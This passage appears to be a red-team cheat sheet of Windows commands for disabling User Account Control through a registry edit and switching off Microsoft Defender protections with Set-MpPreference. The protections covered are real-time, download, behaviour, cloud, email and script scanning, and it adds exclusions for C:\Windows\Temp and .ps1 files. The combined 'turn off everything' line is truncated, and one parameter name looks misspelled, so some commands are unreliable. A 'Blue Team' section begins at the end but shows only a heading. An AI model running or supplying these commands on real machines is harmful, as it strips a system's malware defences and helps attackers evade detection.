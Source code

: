 	cmd.exe /c "C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f"

**Note:** If Tamper protection is enabled you will not be able to turn off Defender by CMD or PowerShell. You can however, still create an exclusion.

## Disables realtime monitoring

Set-MpPreference -DisableRealtimeMonitoring $true

## Disables scanning for downloaded files or attachments

	Set-MpPreference -DisableIOAVProtection $true

## Disable behaviour monitoring

	Set-MPPreference -DisableBehaviourMonitoring $true

## Make exclusion for a certain folder

	Add-MpPreference -ExclusionPath "C:\Windows\Temp"

## Disables cloud detection

	Set-MPPreference -DisableBlockAtFirstSeen $true

## Disables scanning of .pst and other email formats

	Set-MPPreference -DisableEmailScanning $true

## Disables script scanning during malware scans

	Set-MPPReference -DisableScriptScanning $true

## Exclude files by extension

	Set-MpPreference -ExclusionExtension "ps1"

## Turn off everything and set exclusion to "C:\Windows\Temp"

	Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection

---
## Blue Team AV Commands

Here are a few blue team tips for interacting with defender with powershell:

## Updating the signatures
